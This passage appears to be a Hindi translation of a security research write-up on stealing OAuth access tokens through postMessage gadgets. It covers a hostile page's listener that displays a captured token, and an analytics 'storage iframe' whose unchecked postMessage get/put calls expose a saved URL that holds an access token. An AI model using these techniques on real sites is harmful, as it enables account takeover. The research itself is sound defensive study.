 4. खतरनाक पेज जिसमें iframe लोड हो रहा था, फिर मेरे द्वारा मुख्य विंडो के iframe में भेजे गए संदेश को सुन सकता है:

```html
<script>
window.addEventListener('message', function (e) {
if (e.data) {
document.getElementById('leak').innerText = 'हमने टोकन चुरा लिया है: ' + JSON.stringify(e.data);
}
});
</script>
```

## गैजेट 3: URL आउट-ऑफ-बाउंड्स लाने के लिए API का उपयोग करना

![](https://labs.detectify.com/wp-content/uploads/2022/06/Gadget-3--1024x582.png)

&#x20;

यह गैजेट सबसे मजेदार साबित हुआ। किसी को कहीं भेजने और फिर एक अलग स्थान से संवेदनशील डेटा उठाने में कुछ संतोषजनक है।

## **गैजेट 3: उदाहरण 1, स्टोरेज-आइफ्रेम बिना मूल्यांकन जांच के**

पहला उदाहरण ट्रैकिंग-डेटा के लिए एक बाहरी सेवा का उपयोग करता था। इस सेवा ने एक "स्टोरेज आइफ्रेम" जोड़ा था:
```html
<iframe
id="tracking"
name="tracking"
src="https://cdn.customer1234.analytics.example.com/storage.html">
</iframe>
```
मुख्य विंडो postMessage का उपयोग करके इस आइफ्रेम के साथ बातचीत करेगी और ट्रैकिंग डेटा को भेजेगी जो `storage.html` के मूल स्थान के localStorage में सहेजा जाएगा:
```javascript
tracking.postMessage('{"type": "put", "key": "key-to-save", "value": "saved-data"}', '*');
```
मुख्य विंडो भी इस सामग्री को प्राप्त कर सकती है:
```javascript
tracking.postMessage('{"type": "get", "key": "key-to-save"}', '*');
```
![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example1.png)

जब iframe को प्रारंभिकरण पर लोड किया गया था, तो `location.href` का उपयोग करके उपयोगकर्ता के अंतिम स्थान के लिए एक कुंजी सहेजी गई थी:
```javascript
tracking.postMessage('{"type": "put", "key": "last-url", "value": "https://example.com/?code=test#access_token=test"}', '*');
```
यदि आप इस मूल से किसी भी तरीके से बात कर सकते हैं और इसे आपको सामग्री भेजने के लिए प्रेरित कर सकते हैं, तो इस संग्रह से `location.href` प्राप्त किया जा सकता है। सेवा के लिए postMessage-सुनने वाले के पास मूलों की एक ब्लॉक-सूची और एक अनुमति-सूची थी। ऐसा लगता है कि वेबसाइट को विशेष मूलों को अनुमति देने या निरस्त करने के लिए विश्लेषण-सेवा द्वारा अनुमति दी गई थी:
```javascript
var blockList = [];
var allowList = [];
var syncListeners = [];

window.addEventListener('message', function(e) {
// If there's a blockList, check if origin is there and if so, deny
if (blockList && blockList.indexOf(e.origin) !== -1) {
return;
}
```